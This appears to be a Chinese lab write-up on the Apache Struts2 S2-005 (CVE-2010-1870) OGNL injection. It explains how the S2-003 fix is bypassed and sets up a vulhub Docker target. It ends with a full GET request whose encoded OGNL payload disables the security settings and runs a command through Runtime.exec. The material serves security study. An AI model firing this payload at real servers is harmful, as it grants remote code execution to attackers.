 ![image-20230608073745615](http://cdn.ayusummer233.top/DailyNotes/202306080737645.png)

---


### s2-005 - CVE-2010-1870 RCE

S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置(禁止静态方法调用和类方法执行) ，再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003。

----

OGNL 是 Object-Graph Navigation Language 的缩写，它是一个强大的表达式语言，用于获取和设置 Java 对象的属性。在 Apache Struts2 框架中，OGNL 用于数据传输和表达式求值。

OGNL 能做什么：

1. 访问对象的属性：OGNL 可以通过 . 运算符访问对象的属性。例如，对于一个名为 `user` 的对象，我们可以通过 `user.name` 获取其 `name` 属性的值。
2. 调用方法：OGNL 也可以调用对象的方法。例如，`user.getName()` 就可以调用 `user` 对象的 `getName()` 方法。
3. 操作集合：OGNL 提供了丰富的语法来操作集合对象，包括列表、映射和数组。
4. 执行条件和循环：OGNL 还支持 if/else 表达式、for 循环等控制结构。

在 Struts2 中，OGNL 的功能非常强大，不仅可以用于数据绑定，还可以用于表单验证、流程控制等。

然而，Struts2 中 OGNL 的使用也带来了一些安全问题。因为 OGNL 可以调用任意的 Java 方法，所以如果开发者没有正确地限制 OGNL 表达式的执行，攻击者可能会通过构造恶意的 OGNL 表达式，执行任意代码或访问敏感数据。这就是导致 Struts2 中多个 OGNL 注入漏洞的原因。

---

在 s2-003 中, struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

---

```bash
# 从 vulhub 仓库根目录进入 s2-005 目录
cd struts2/s2-005
# 使用 docker 启动环境(可以修改同级目录下的 docker-compose.yml 文件以更改端口映射行为, 默认 8080:8080, 这里改成了 8081:8080)
docker compose build
docker compose up -d
```

此时访问靶机 8081 端口的 web 服务可以看到如下页面:

![image-20230608164057182](http://cdn.ayusummer233.top/DailyNotes/202309141817123.png)

尝试向该页面发送一个 GET 请求并使用 OGNL 表达式来关闭安全配置并向靶机 `/tmp` 目录写入一个 `success` 文件

```http
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: 192.168.1.215:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```
